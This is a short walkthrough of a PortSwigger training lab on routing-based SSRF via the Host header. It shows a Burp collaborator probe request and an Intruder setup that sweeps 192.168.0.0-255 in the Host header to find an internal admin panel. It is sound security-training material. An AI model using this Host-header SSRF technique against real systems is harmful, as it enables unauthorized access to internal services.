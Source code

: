 # [Lab: Routing-based SSRF](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-routing-based-ssrf)

## Lab

This lab is vulnerable to routing-based SSRF via the Host header. You can exploit this to access an insecure intranet admin panel located on an internal IP address.

To solve the lab, access the internal admin panel located in the `192.168.0.0/24` range, then delete Carlos.

## Scan

Burpsuite scanner detected: `Out-of-band resource load (HTTP)`

```http
GET / HTTP/1.1
Host: y43rqmkzv1cc5d074u4202ba3190xrlkk8av0jp.oastify.com
```

## Solutions

use burp's intruder to find the private server ip:

- positions:

```http
GET / HTTP/1.1
Host: 192.168.0.§0§
```

- payloads: 0 -> 255
- result:

```http
GET / HTTP/1.1
Host: 192.168.0.231

HTTP/1.1 302 Found
Location: /admin
```

solved
